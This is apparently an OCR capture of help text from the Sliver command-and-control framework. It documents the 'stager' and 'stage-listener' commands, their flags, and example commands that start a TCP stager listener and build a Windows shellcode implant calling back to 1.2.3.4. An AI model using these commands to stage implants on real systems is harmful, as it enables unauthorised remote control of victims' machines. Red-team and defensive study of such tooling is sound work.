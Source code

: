 ```


Usage:
======
  stager [flags]

Flags:
======
  -a, --arch     string    cpu architecture (default: amd64)
  -b, --badchars string    bytes to exclude from stage shellcode
  -f, --format   string    Output format (msfvenom formats, see `help generate stager` for the list) (default: raw)
  -h, --help               display help
  -L, --lhost    string    Listening host
  -l, --lport    int       Listening port (default: 8443)
  -o, --os       string    operating system (default: windows)
  -r, --protocol string    Staging protocol (tcp/http/https) (default: tcp)
  -s, --save     string    directory to save the generated stager to
  -t, --timeout  int       command timeout in seconds (default: 60)

sliver > stage-listener -h

Command: stage-listener <options>
About: Starts a stager listener bound to a Sliver profile.
Examples: 

The following command will start a TCP listener on 1.2.3.4:8080, and link the my-sliver-profile profile to it.
When a stager calls back to this URL, a sliver corresponding to the said profile will be sent.

stage-listener --url tcp://1.2.3.4:8080 --profile my-sliver-profile

To create a profile, use the profiles new command. A common scenario is to create a profile that generates a shellcode, which can act as a stage 2:

profiles new --format shellcode --mtls 1.2.3.4 --skip-symbols windows-shellcode


Usage:
======
  stage-listener [flags]

Flags:
======
      --aes-encrypt-iv  string    encrypt stage with AES encryption iv
      --aes-encrypt-key string    encrypt stage with AES encryption key
  -c, --cert            string    path to PEM encoded certificate file (HTTPS only)
  -C, --compress        string    compress the stage before encrypting (zlib, gzip, deflate9, none) (default: none)
  -h, --help                      display help
  -k, --key             string    path to PEM encoded private key file (HTTPS only)
  -e, --lets-encrypt              attempt to provision a let's encrypt certificate (HTTPS only)
  -P, --prepend-size              prepend the size of the stage to the payload (to use with MSF stagers)
  -p, --profile         string    implant profile name to link with the listener
  -u, --url             string    URL to which the stager will call back to
```
